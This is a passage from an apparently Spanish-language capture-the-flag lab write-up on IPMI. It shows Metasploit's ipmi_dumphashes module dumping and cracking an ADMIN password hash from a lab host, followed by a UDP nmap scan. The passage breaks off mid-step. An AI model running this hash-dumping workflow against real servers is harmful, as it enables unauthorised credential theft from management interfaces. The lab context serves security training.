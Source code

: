 ```shell-session
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---------
**\[+1 CUBE ] What username is configured for accessing the host via IPMI?**
Realizamos un escaneo básico de nmap en UDP para ver puertos abiertos: 
```
sudo nmap -sU -F 10.129.220.50
```
Observamos que el puerto 623 UDP está abierto:

```
PS [10.10.15.48] /home/htb-ac-1876550 > sudo nmap -sU -F 10.129.220.50
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-07 05:14 CDT
Nmap scan report for 10.129.220.50
Host is up (0.054s latency).
Not shown: 94 closed udp ports (port-unreach)
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
111/udp  open          rpcbind
137/udp  open          netbios-ns
138/udp  open|filtered netbios-dgm
623/udp  open          asf-rmcp
2049/udp open          nfs

```

Con nmap, hacemos un escaneo de la versión de IPMI utilizada, con:
